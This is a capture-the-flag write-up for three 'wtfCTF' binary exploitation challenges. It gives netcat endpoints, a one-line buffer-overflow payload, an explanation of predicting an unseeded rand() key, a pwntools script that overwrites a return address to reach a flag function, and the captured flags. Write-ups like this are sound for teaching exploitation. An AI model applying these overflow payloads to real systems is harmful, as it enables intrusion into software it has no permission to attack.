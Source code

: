 ## Pwn

#### MoM5m4g1c
###### Author: [OrkinKing](github.com/nithinchowdary)

>Son:I want my chocolate mom! Mother: Fill the water bottle son! :)
>
>nc 20.42.99.115 3000

###### Exploit
```py
(python -c 'print("a"*144)')| ./prison
```
###### Flag: wtfCTF{N1c3!n0w_U_c4N_34t_uR_Ch0c0L4t3}

#### k3Y
###### Author: [OrkinKing](github.com/nithinchowdary)

> Do you have the key to escape from this room?
>
> nc 20.42.99.115 3143
###### Exploit
```
This challenge focuses on pseudo-random number generators, the randomness of the generated numbers depends on the seed, different seeds result in different sequence of numbers each time.

The bug in this code is that it uses the default seed each time, which is 1. This will generate the same sequence every time and we can predict the first number in the sequence.

If we compile this code and add printf("%d", random), we get the value 1804289383. This value XORed with 0xacedface will get us the Key  
```
###### Flag: wtfCTF{c0n80!_Th15_i5_tH3_fL48}

#### Pr1ns0n_Br34k
###### Author: [OrkinKing](github.com/nithinchowdary)

> Really? Do u really want to break the prison you built on your own? You are insane!
>
>nc 20.42.99.115 3213
###### Exploit
```py
from pwn import *

from ptrlib import *
elf = ELF("./prison")
#sock = Process(["stdbuf", "-o0", "./aquarium"])
sock = Socket("20.42.99.115", 3213)
payload = b"A" * 168
payload += p64(elf.symbol("flag"))
# Stage 1
sock.sendline("1")
sock.sendline("2")
sock.sendline("3")
sock.sendline("4")
sock.sendline("5")
sock.recvuntil("Where is this prison: ")
sock.sendline(payload)
sock.interactive() 
```
###### Flag: wtfCTF{Pr150n3rs_35c4p3d_b3f0r3_3v3n_3nt3r1n8}

